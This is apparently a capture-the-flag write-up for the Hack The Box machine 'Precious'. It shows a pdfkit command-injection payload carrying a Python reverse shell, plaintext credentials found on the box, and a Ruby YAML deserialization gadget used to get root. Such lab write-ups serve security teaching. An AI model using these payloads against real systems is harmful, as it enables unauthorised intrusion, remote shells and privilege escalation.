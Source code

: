 ```yaml
---
toc: true
toc_label: "Table of Contents"
toc_icon: "cog"
toc_sticky: true
title: Precious HTB Writeup
header:
  image: /assets/images/precious/precious_header2.png
  teaser: /assets/images/precious/precious_header.png
  
---
```

**Description**

The machine we’ll talk about today is a machine vulnerable to RCE and also to YAML Deserialization attack, I’ll explain my best to do through these 2 vulnerabilities.

# **PORT SCANNING**

```
nmap -sC -sV -oA nmap/result 10.10.11.189
Starting Nmap 7.93 ( <https://nmap.org> ) at 2022-11-27 00:13 CST
Nmap scan report for 10.10.11.189
Host is up (0.084s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey:
|   3072 845e13a8e31e20661d235550f63047d2 (RSA)
|   256 a2ef7b9665ce4161c467ee4e96c7c892 (ECDSA)
|_  256 33053dcd7ab798458239e7ae3c91a658 (ED25519)
80/tcp open  http    nginx 1.18.0
|_http-title: Did not follow redirect to <http://precious.htb/|_http-server-header:> nginx/1.18.0
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at <https://nmap.org/submit/> .
Nmap done: 1 IP address (1 host up) scanned in 10.39 seconds
```

We have 2 ports open ⇒ 80 and 22

http-title revealse we are redirected to [](http://precious.htb)[http://precious.htb](http://precious.htb) ⇒ Don’t forget to add it to **/etc/hosts** file.

# HTTP Navigation

Navigating to [](http://precious.htb)[http://precious.htb](http://precious.htb) we can see a website where we can convert a web page to PDF file.

![precious-web-converter.png](/assets/images/precious/precious-web-converter.png)

I then tried to see how works the website.

Starting my webserver with python module :

```jsx
# python3 -m http.server 80
```

Now I can enter my “webpage” address and download the PDF generated.

Analyzing the PDF file with **EXIFTOOL** :

![precious-pdf-generated.png](/assets/images/precious/precious-pdf-generated.png)

The PDF is generated by **pdfkit v0.8.6** ⇒ search on Google :

we directly find that there is a vuln linked to **CVE-2022-25765**

After reading and understand some **PoC**. We understand here that we can add a random **GET** parameter after the link entered in the converter and inject a command between `backticks`

```
http://10.10.XX.XX/?name=%20`id`
```

Let's try that and see what's happening : 


![id-command-injected.png](/assets/images/precious/id-command-injected.png)

Here's we can see that we have the command executed and reflected in the PDF Title ! 

We can use a Python3 reverse shell payload found on : 
https://gtfobins.github.io/

```python
http://10.10.XX.XX/?name=%20`python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.XX.XX",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'`
```


```js
nc -nvlp 4444
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::9001
Ncat: Listening on 0.0.0.0:9001
Ncat: Connection from 10.10.11.189.
Ncat: Connection from 10.10.11.189:42830.
$ ls
ls
app  config  config.ru  Gemfile  Gemfile.lock  pdf  public
$ cd /home/ruby
cd /home/ruby
$ ls -al
ls -al
total 28
drwxr-xr-x 4 ruby ruby 4096 Nov 26 14:36 .
drwxr-xr-x 4 root root 4096 Oct 26 08:28 ..
lrwxrwxrwx 1 root root    9 Oct 26 07:53 .bash_history -> /dev/null
-rw-r--r-- 1 ruby ruby  220 Mar 27  2022 .bash_logout
-rw-r--r-- 1 ruby ruby 3526 Mar 27  2022 .bashrc
dr-xr-xr-x 2 root ruby 4096 Oct 26 08:28 .bundle
drwxr-xr-x 4 ruby ruby 4096 Nov 26 19:56 .cache
-rw-r--r-- 1 ruby ruby  807 Mar 27  2022 .profile
```

I found a directory called `.bundle` and found a file named `config`

```js
-r-xr-xr-x 1 root ruby   62 Sep 26 05:04 config
$ cat config
cat config
---
BUNDLE_HTTPS://RUBYGEMS__ORG/: "henry:Q3c1AqGHtoI0aXAYFH"
```

Let's try these new credentials ! 


# Privilege Escalation

```js
-bash-5.1$ sudo -l
Matching Defaults entries for henry on precious:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User henry may run the following commands on precious:
    (root) NOPASSWD: /usr/bin/ruby /opt/update_dependencies.rb
```


Analyzing the file Ruby file there is `YAML.load` function is vulnerable to `YAML Deserialization Attack`.

PoC available here : 

https://gist.github.com/staaldraad/89dffe369e1454eedd3306edc8a7e565#file-ruby_yaml_load_sploit2-yaml


Now we'll download the file in `/home/henry` directory and try to execute it : 

```ruby
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: id
         method_id: :resolve
```

```bash
henry@precious:~$ sudo /usr/bin/ruby /opt/update_dependencies.rb
sh: 1: reading: not found
uid=0(root) gid=0(root) groups=0(root)
```

now let's change the id command to something more interesting : 

```ruby
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: "chmod +s /bin/bash"
         method_id: :resolve
```

```bash
henry@precious:~$ sudo /usr/bin/ruby /opt/update_dependencies.rb
```

```bash
henry@precious:~$ ls -al /bin/bash
-rwsr-sr-x 1 root root 1234376 Mar 27  2022 /bin/bash
```

And we got the `root.txt` and `user.txt` files.

```bash
henry@precious:~$ /bin/bash -p
bash-5.1# cd /root
bash-5.1# cat root.txt; cat /home/henry/user.txt
3e65f5f15a60993e469cec52af3141c7
56c36a10c17db0478af95c8e10f8f733
```

